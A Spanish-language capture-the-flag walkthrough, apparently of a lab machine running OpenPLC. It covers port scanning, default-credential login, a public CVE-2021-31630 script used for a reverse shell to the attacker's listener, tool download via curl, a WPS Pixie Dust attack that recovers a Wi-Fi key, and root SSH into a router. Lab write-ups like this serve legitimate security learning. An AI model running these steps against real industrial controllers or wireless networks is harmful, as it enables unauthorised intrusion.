

---------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.7 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 11:10 -03
Initiating SYN Stealth Scan at 11:10
Scanning 10.10.11.7 [65535 ports]
Discovered open port 22/tcp on 10.10.11.7
Discovered open port 8080/tcp on 10.10.11.7
Completed SYN Stealth Scan at 11:11, 23.87s elapsed (65535 total ports)
Nmap scan report for 10.10.11.7
Host is up, received user-set (0.85s latency).
Scanned at 2024-07-25 11:10:52 -03 for 24s
Not shown: 65227 closed tcp ports (reset), 306 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```
Vemos que tenemos dos puertos abiertos 22 SSH y 8080, entonces realizamos un escaneo mas exhaustivo 
```bash
❯ nmap -p22,8080 -sCV 10.10.11.7 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 11:14 -03
Nmap scan report for 10.10.11.7
Host is up (1.4s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.10.11.7:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZqJdww.rBhoe_cbOoCusAZqQhJDo6ckHXM; Expires=Thu, 25-Jul-2024 14:19:27 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Thu, 25 Jul 2024 14:14:27 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: http://0.0.0.0:8080/login
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.ZqJdvQ.UhYLbSzvhX38ubvk8tpenLG6A60; Expires=Thu, 25-Jul-2024 14:19:21 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Thu, 25 Jul 2024 14:14:21 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZqJdwA.43DTfe5dh0I1Gp4C0OKzhAKmfU0; Expires=Thu, 25-Jul-2024 14:19:24 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Thu, 25 Jul 2024 14:14:24 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=7/25%Time=66A25DBD%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,24C,"HTTP/1\.0\x20302\x20FOUND\r\ncontent-type:\x20text/htm
SF:l;\x20charset=utf-8\r\ncontent-length:\x20219\r\nlocation:\x20http://0\
SF:.0\.0\.0:8080/login\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfZn
SF:Jlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ\.ZqJdvQ\.UhYLbSzvhX38ubvk8tpen
SF:LG6A60;\x20Expires=Thu,\x2025-Jul-2024\x2014:19:21\x20GMT;\x20HttpOnly;
SF:\x20Path=/\r\nserver:\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x
SF:20Thu,\x2025\x20Jul\x202024\x2014:14:21\x20GMT\r\n\r\n<!DOCTYPE\x20HTML
SF:\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>Red
SF:irecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20should\x2
SF:0be\x20redirected\x20automatically\x20to\x20target\x20URL:\x20<a\x20hre
SF:f=\"/login\">/login</a>\.\x20\x20If\x20not\x20click\x20the\x20link\.")%
SF:r(HTTPOptions,14E,"HTTP/1\.0\x20200\x20OK\r\ncontent-type:\x20text/html
SF:;\x20charset=utf-8\r\nallow:\x20HEAD,\x20OPTIONS,\x20GET\r\nvary:\x20Co
SF:okie\r\nset-cookie:\x20session=eyJfcGVybWFuZW50Ijp0cnVlfQ\.ZqJdwA\.43DT
SF:fe5dh0I1Gp4C0OKzhAKmfU0;\x20Expires=Thu,\x2025-Jul-2024\x2014:19:24\x20
SF:GMT;\x20HttpOnly;\x20Path=/\r\ncontent-length:\x200\r\nserver:\x20Werkz
SF:eug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Thu,\x2025\x20Jul\x202024\x2
SF:014:14:24\x20GMT\r\n\r\n")%r(RTSPRequest,CF,"HTTP/1\.1\x20400\x20Bad\x2
SF:0request\r\ncontent-length:\x2090\r\ncache-control:\x20no-cache\r\ncont
SF:ent-type:\x20text/html\r\nconnection:\x20close\r\n\r\n<html><body><h1>4
SF:00\x20Bad\x20request</h1>\nYour\x20browser\x20sent\x20an\x20invalid\x20
SF:request\.\n</body></html>\n")%r(FourOhFourRequest,224,"HTTP/1\.0\x20404
SF:\x20NOT\x20FOUND\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncon
SF:tent-length:\x20232\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfcG
SF:VybWFuZW50Ijp0cnVlfQ\.ZqJdww\.rBhoe_cbOoCusAZqQhJDo6ckHXM;\x20Expires=T
SF:hu,\x2025-Jul-2024\x2014:19:27\x20GMT;\x20HttpOnly;\x20Path=/\r\nserver
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Thu,\x2025\x20Jul\
SF:x202024\x2014:14:27\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 En el puerto 8080 esta corriendo Werkzeug, vamos a ver con whatweb que tecnologías corren por detrás en esta pagina web
```bash
❯ whatweb http://10.10.11.7:8080
http://10.10.11.7:8080 [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.10.11.7], Python[2.7.18], RedirectLocation[http://10.10.11.7:8080/login], Title[Redirecting...], Werkzeug[1.0.1]
http://10.10.11.7:8080/login [200 OK] Cookies[session], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/2.7.18], HttpOnly[session], IP[10.10.11.7], PasswordField[password], Python[2.7.18], Werkzeug[1.0.1]
```
Vemos que nos redirige a una pagina de login, entonces ahora vamos al navegador para ver que es lo que hay 


Tenemos una pagina de inicio de [OpenPLC](https://soloconlinux.org.es/openplc/) , buscaremos la credenciales por defecto y probamos, si no buscaremos una manera de encontrar la credenciales 


Probamos estas credenciales por defecto


y como podemos ver entramos en panel de openplc, buscaremos vulnerabilidades de OpenPLC para encontrar la manera de obtener una shell



Encontramos el CVE-2021-31630 que es un script de Python nos otorga una reverse shell por lo tanto veremos su modo de uso
```bash
❯ python3 cve_2021_31630.py -h
usage: cve_2021_31630.py [-h] [-u U] [-p P] [-t T] -lh LH -lp LP url

positional arguments:
  url         Target URL with http(s)://

options:
  -h, --help  show this help message and exit
  -u U        Username
  -p P        Password
  -t T        Request Timeout, increase if server is slow
  -lh LH      LHOST
  -lp LP      LPORT
```
vemos que tenemos que pasarle el usuario, la contraseña,, nuestra IP , el puerto de escuha y la Url entonces pasamos estos parametros y nos ponemos en escucha por el puerto que le indiquemos
```bash
❯ python3 cve_2021_31630.py -u openplc -p openplc -lh 10.10.16.62 -lp 443 http://10.10.11.7:8080

------------------------------------------------
--- CVE-2021-31630 -----------------------------
--- OpenPLC WebServer v3 - Authenticated RCE ---
------------------------------------------------

[>] Found By : Fellipe Oliveira
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.11.7:8080
[>] Username : openplc
[>] Password : openplc
[>] Timeout  : 20 secs
[>] LHOST    : 10.10.16.62
[>] LPORT    : 443

[!] Checking status...
[+] Service is Online!
[!] Logging in...
[+] Logged in!
[!] Restoring default program...
[+] PLC Stopped!
[+] Cleanup successful!
[!] Uploading payload...
[+] Payload uploaded!
[+] Waiting for 5 seconds...
[+] Compilation successful!
[!] Starting PLC...
[+] PLC Started! Check listener...
[!] Cleaning up...
[+] PLC Stopped!
[+] Cleanup successful!
```
y como vemos obtenemos una shell
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.62] from (UNKNOWN) [10.10.11.7] 34522
bash: cannot set terminal process group (174): Inappropriate ioctl for device
bash: no job control in this shell
root@attica04:/opt/PLC/OpenPLC_v3/webserver# whoami
whoami
root
root@attica04:/opt/PLC/OpenPLC_v3/webserver# 
```

Hacemos un tratamiento de la TTY
```bash
oot@attica04:/opt/PLC/OpenPLC_v3/webserver# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@attica04:/opt/PLC/OpenPLC_v3/webserver# ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm

root@attica04:/opt/PLC/OpenPLC_v3/webserver# export TERM=xterm
root@attica04:/opt/PLC/OpenPLC_v3/webserver# export SHELL=/bin/bash
root@attica04:/opt/PLC/OpenPLC_v3/webserver# stty rows 28 columns 129
```
# [](#header-3)Escalation Privilege

Vemos que nos da una shell como root pero esto de primera es raro solo vemos la flag del usuario
```bash
root@attica04:~# cat user.txt 
***************************2b218
```
Ahora enumeramos el sistema para encontrar la manera de escalar privilegio realmente a root, haciendo ifconfig vemos que tenemos una interfaz wlan0
```bash
root@attica04:/home# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.5  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fe43:463a  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:43:46:3a  txqueuelen 1000  (Ethernet)
        RX packets 39090  bytes 3637737 (3.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 29771  bytes 4666297 (4.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 176  bytes 9715 (9.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 176  bytes 9715 (9.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:05:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Entonces hacemos una escaneo a esta interfaz de red 
```bash
root@attica04:/home# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
	last seen: 16862.528s [boottime]
	TSF: 1721919764946232 usec (19929d, 15:02:44)
	freq: 2412
	beacon interval: 100 TUs
	capability: ESS Privacy ShortSlotTime (0x0411)
	signal: -30.00 dBm
	last seen: 0 ms ago
	Information elements from Probe Response frame:
	SSID: plcrouter
	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
	DS Parameter set: channel 1
	ERP: Barker_Preamble_Mode
	Extended supported rates: 24.0 36.0 48.0 54.0 
	RSN:	* Version: 1
		* Group cipher: CCMP
		* Pairwise ciphers: CCMP
		* Authentication suites: PSK
		* Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
	Supported operating classes:
		* current operating class: 81
	Extended capabilities:
		* Extended Channel Switching
		* SSID List
		* Operating Mode Notification
	WPS:	* Version: 1.0
		* Wi-Fi Protected Setup State: 2 (Configured)
		* Response Type: 3 (AP)
		* UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
		* Manufacturer:  
		* Model:  
		* Model Number:  
		* Serial Number:  
		* Primary Device Type: 0-00000000-0
		* Device name:  
		* Config methods: Label, Display, Keypad
		* Version2: 2.0
```

* Nota:
    
1. **iw** : este es el comando principal para interactuar con extensiones inalámbricas y configurar dispositivos inalámbricos en Linux.
2. **dev wlan0** : aquí, dev se utiliza para especificar que estamos trabajando con un dispositivo inalámbrico y wlan0 es el nombre de la interfaz inalámbrica de su sistema. El nombre exacto de la interfaz puede variar en diferentes sistemas y configuraciones.
3. **scan** : esta parte del comando le indica a iw que realice un escaneo de las redes inalámbricas disponibles en el área.

En resumen, iw dev wlan0 scan ejecuta un escaneo de red inalámbrica utilizando la interfaz wlan0 de su sistema, lo que le permite ver las redes disponibles y obtener información detallada sobre ellas, como su SSID, intensidad de la señal, canales utilizados y tipos de seguridad implementados.


```bash
SSID: plcrouter
BSS 02:00:00:00:01:00(on wlan0)
```

Entonces ahora realizaremos un ataque de fuerza bruta con [Oneshot.py](https://github.com/kimocoder/OneShot) lo descargamos en nuestra maquina de atacante y la transferimos a la maquina victima, entonces montamos un servidor en python y lo descargamos en la maquina victima, como la maquina victima no tiene wget lo hacemos con curl
```bash
root@attica04:~# curl 10.10.16.62/oneshot.py -o oneshot.py
```
le damos permisos de ejecucion vemos la manera de usarlo
```bash
root@attica04:/tmp# python3 oneshot.py -h
usage: oneshot.py [-h] -i INTERFACE [-b BSSID] [-p PIN] [-K] [-F] [-X] [-B] [--pbc] [-d DELAY] [-w] [--iface-down]
                  [--vuln-list VULN_LIST] [-l] [-r] [--mtk-wifi] [-v]

OneShotPin 0.0.2 (c) 2017 rofl0r, modded by drygdryg

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Name of the interface to use
  -b BSSID, --bssid BSSID
                        BSSID of the target AP
  -p PIN, --pin PIN     Use the specified pin (arbitrary string or 4/8 digit pin)
  -K, --pixie-dust      Run Pixie Dust attack
  -F, --pixie-force     Run Pixiewps with --force option (bruteforce full range)
  -X, --show-pixie-cmd  Always print Pixiewps command
  -B, --bruteforce      Run online bruteforce attack
  --pbc, --push-button-connect
                        Run WPS push button connection
  -d DELAY, --delay DELAY
                        Set the delay between pin attempts
  -w, --write           Write credentials to the file on success
  --iface-down          Down network interface when the work is finished
  --vuln-list VULN_LIST
                        Use custom file with vulnerable devices list
  -l, --loop            Run in a loop
  -r, --reverse-scan    Reverse order of networks in the list of networks. Useful on small displays
  --mtk-wifi            Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit (for internal Wi-Fi
                        adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
  -v, --verbose         Verbose output

Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
```
Lo ejecutamos pasandole el BSSID y la interfaz de red, con el parametro -K 
```bash
root@attica04:/tmp# python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: 4D73238AAD5EA4BB8659BE431387EF0F
[*] Sending WPS Message M2…
[P] PKR: B847E5A1104AD28A51A3DD8E12222558742824FA2321DE936DA8C19C07CA9FFF1D34B8406AC86ED6C928CD30E94E62DCDC933E9D7940D216521F8394CF1287750520E2AD5ED6F5C0CA4DFC3196AC4C6043D70D8D55845F029D814134FBBB28DA4A2E8B983DA5D9ACDA59D07F515B87936BF3CD3EC0A75248D110BB64F7C602ECA4EB7DE554E56AD400D27690115C736C99E3E6BBC238D290ABDF3CAB2A4749E56A181101851DB1750DEC72D9518772C0C93A54CC3410BADD58B9D3E9A8B5B1C1
[P] PKE: 9473DD1854AFCF1E20B589367AAC263B07F4CD507F797FD29B48B4A1F53204C3F61131C068FC40DF70877DA345FE52C17B390266906C5A180A761C9C85528AFB582EACF28FA77E7B25A0418F4103ED11352F3D4DFCDF670B06C39BB5BC9B5A8FBD365D42F2E5BF27866DB9A179B5C5C456C322437FB32CD1EB50E2EED2AFA49D5BF05D1D904034EA3D6535A269C80ADEF72A3BB716A61DE9064A865C29607C066EEF849956E80DCF4424475BA80A3D10B50B97F290E8E939F610FC259BBC1BEF
[P] AuthKey: A21E8B26D754670B8DC58EA6807494B03017B39220D6AD23F0822EEB60369803
[*] Received WPS Message M3
[P] E-Hash1: EDB29D5AADFA9D48836C5696FFCC3BCA538129B75A5B002CC96D48D7E7C868C1
[P] E-Hash2: 0BDEE1CA4EBF19F4A63507E69323DCAA1AC1F6F492FB8C01A01BEC2EFB070D8C
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```
Ahora procedemos a crear la contraseña PSK
```bash
root@attica04:/tmp# wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! | sudo tee -a /etc/wpa_supplicant/wpa_supplicant.conf
network={
	ssid="plcrouter"
	#psk="NoWWEDoKnowWhaTisReal123!"
	psk=2bafe4e17630ef1834eaa9fa5c4d81fa5ef093c4db5aac5c03f1643fef02d156
}
```
Procedemos a conectarnos al WIFI
```bash
root@attica04:/tmp# wpa_supplicant -B -i wlan0 -c /etc/wpa_supplicant/wpa_supplicant.conf 
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
```
Le asignamos una ip manualmente a la interface wlan0
```bash
root@attica02:/tmp# sudo ifconfig wlan0 192.168.1.7 netmask 255.255.255.0 up
```
Entonces vemos si se configuro bien 
```bash
root@attica02:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.3  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fefb:30c8  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:fb:30:c8  txqueuelen 1000  (Ethernet)
        RX packets 7341  bytes 579092 (579.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5604  bytes 951735 (951.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1267  bytes 93973 (93.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1267  bytes 93973 (93.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.7  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:300  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 2  bytes 282 (282.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13  bytes 1348 (1.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Procedemos a conectarnos por ssh a root
```bash
ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# 
```
y con esto ya podemos visualizar la flag de root
```bash
root@ap:~# cat root.txt 
****************************a4e7a
```
